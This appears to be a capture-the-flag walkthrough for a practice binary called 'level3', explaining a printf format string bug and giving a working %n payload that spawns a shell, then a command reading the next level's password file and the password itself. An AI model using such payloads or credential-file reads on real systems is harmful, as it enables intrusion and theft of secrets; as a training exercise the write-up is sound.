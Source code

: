 # Level3 Walkthrough - Format String Exploit Explained

## 🎯 Goal
Make the `level3` binary call `system()` to give us a shell by changing a number in memory from `0` to `64`.

---

## 🔍 Step 1: What the Binary Does

The binary has a function `v()` that:

1. Reads 512 characters of input.
2. Prints your input using `printf()` ← **THIS IS THE VULNERABILITY!**
3. Checks if a number at memory address `0x804988c` equals `64`.
4. If **YES**: gives you a shell.
5. If **NO**: does nothing.

The number at `0x804988c` starts as `0`. We need to change it to `64`.

---

## 🔍 Step 2: The `printf()` Vulnerability

Normally, `printf()` is used like this:

```c
printf("Hello %s", name);  // Good - format string + variable
```

But the binary does:

```c
printf(buffer);  // BAD! User input is treated as the format string
```

If we put `%` symbols in our input, `printf` treats them as **special commands**!

---

## 🔍 Step 3: The Magic `%n` Command

`%n` in `printf`:

- Counts **how many characters have been printed** so far.
- Writes that number to a **memory address**.

Example:

```c
int count;
printf("Hello%n", &count);  // count becomes 5
```

---

## 🔍 Step 4: Our Plan

We want to:

1. Put the target address `0x804988c` in our input.
2. Use `%n` to write `64` to that address.
3. Make the check pass → get a shell.

---

## 🔍 Step 5: Finding Where Our Input Appears

We need to know the **position** of our input in `printf`’s arguments:

```bash
python -c 'print "AAAA.%x.%x.%x.%x.%x.%x.%x.%x"' | ./level3
```

Output example:

```
AAAA.200.b7fd1ac0.b7ff37d0.41414141.252e7824
```

- `41414141` = `"AAAA"` in hex.
- Appears at **position 4** → we will use `%4$n`.

---

## 🔍 Step 6: Building the Exploit

We need to write **exactly 64** to the target address:

```python
payload = "\x8c\x98\x04\x08"  # target address
payload += "%60x"             # padding: print 60 more chars
payload += "%4$n"             # write total (64) to 4th argument
```

**Math:**

- 4 bytes (address) = 4 characters printed.
- 60 bytes (padding) = 60 characters printed.
- Total = 64 → `%4$n` writes `64` to address `0x804988c`.

---

## 🚀 Step 7: Run the Exploit

```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60x%4$n"'; cat) | ./level3
```

---

## 🔍 Step 8: What Happens

1. `printf` sees input: `\x8c\x98\x04\x08%60x%4$n`
2. Prints the 4-byte address.
3. `%60x`: prints 60 characters (padding).
4. `%4$n`: writes `64` to `0x804988c`.
5. Check passes → `system("/bin/sh")` called → shell spawned.

---

## 🎯 Step 9: Get the Password

```bash
cat /home/user/level4/.pass
```

Output:

```
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## 💡 Analogy

- The binary has a security guard checking a box for `64`.
- Box currently has `0`.
- We trick `printf` into putting `64` in the box.
- Guard sees `64` → lets us in.

---

## 🎉 Success!

**Password for level4:**

```
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

To access level4:

```bash
su level4
# Enter password when prompted
```


